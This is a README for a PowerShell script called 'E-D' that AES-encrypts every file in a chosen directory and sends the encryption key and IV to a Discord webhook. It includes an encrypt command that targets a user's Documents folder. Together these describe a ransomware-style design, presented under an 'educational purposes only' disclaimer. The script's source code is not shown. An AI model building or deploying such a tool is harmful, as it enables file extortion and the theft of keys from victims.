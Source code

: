 # PowerShell E-D Script README

## ⚠️ **WARNING: This script is meant for educational purposes ONLY. Misuse of this script may violate laws and regulations. Use it responsibly and at your own risk.** ⚠️

## Overview

This PowerShell script provides a simple mechanism to encrypt or decrypt files using AES encryption. The function `E-D` takes various parameters to encrypt or decrypt files within a given directory.

The script also sends the encryption key and initialization vector (IV) to a Discord webhook, thereby allowing remote access to the decryption key. 

**Note: Transmitting encryption keys over the internet is generally not secure and should not be done in production.**

## Function Parameters

- `-e` : Specifies encryption mode. (Mandatory for encryption)
- `-d` : Specifies decryption mode. (Mandatory for decryption)
- `-p` : Specifies the path where the target files are located. (Mandatory for both encryption and decryption)
- `-wh` : Specifies the Discord webhook URL. (Mandatory for encryption)

## Usage Examples

### To Encrypt:

```PowerShell
E-D -e -p "C:\Users\$env:USERNAME\Documents\test\" -wh "YOUR WEBHOOK HERE"
```

### To Decrypt:

```PowerShell
E-D -d -p "C:\Users\$env:USERNAME\Documents\test\"
```

## Functions Inside the Script

- `SendToDiscord`: Sends a message to the specified Discord webhook.
- `EncryptFile`: Encrypts a given file.
- `DecryptFile`: Decrypts a given file.
